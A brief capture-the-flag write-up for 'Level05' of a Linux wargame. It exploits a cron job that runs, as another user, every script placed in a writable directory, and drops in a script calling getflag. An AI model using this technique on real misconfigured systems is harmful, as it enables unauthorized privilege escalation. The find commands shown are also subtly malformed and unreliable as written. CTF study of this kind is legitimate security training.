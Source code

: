 # Level05 Writeup

User level05 has nothing in the home directory, using `find / -user level05 -find f 2> /dev/null` Reveals the file openarenaserver
``` bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

User level05 has also has mail in `/var/mail/level05` (found with `find / -name level05 -find f 2> /dev/null`):
```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

The file in /var/mail is a cron job that runs as flag05, executing the file every 2 minutes. Therefor we can create a script in /opt/openarenaserver that will call the `getflag` function and save it to a file like so:

``` bash
echo "/bin/getflag > /var/mail/flag05" > /opt/openarenaserver/exploit.sh
chmod +x /opt/openarenaserver/exploit.sh
```

